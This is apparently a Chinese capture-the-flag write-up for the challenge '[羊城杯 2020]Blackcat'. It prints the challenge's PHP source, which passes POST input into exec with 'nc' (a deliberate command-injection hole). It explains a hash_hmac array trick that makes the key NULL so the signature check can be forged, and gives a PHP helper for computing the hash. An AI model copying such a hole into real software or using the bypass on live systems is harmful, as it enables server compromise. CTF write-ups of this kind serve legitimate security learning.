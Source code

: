 # [羊城杯 2020]Blackcat

## 知识点

`hash_hmac`

## 解题

下载音乐，然后使用`010editor`打开即可查看源码

```php
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('谁！竟敢踩我一只耳的尾巴！');
}
$clandestine = getenv("clandestine");
if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);
$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);
if($hh !== $_POST['Black-Cat-Sheriff']){
    die('有意瞄准，无意击发，你的梦想就是你要瞄准的目标。相信自己，你就是那颗射中靶心的子弹。');
}
echo exec("nc".$_POST['One-ear']);
```

`hash_hmac`第二个参数为数组时会返回`NULL`，那么` $_POST['White-cat-monitor']`即可设置为`[]`，`Black-Cat-Sheriff`就为对应`hash_hmac('sha256', $_POST['One-ear'], NULL);`生成的`hash值`

使用`payload`

```python
<?php

echo $_POST['One-ear'] . '<br>';
$hh = hash_hmac('sha256', $_POST['One-ear'], false);
echo $hh;
```

![](./img/[羊城杯 2020]Blackcat-1.png)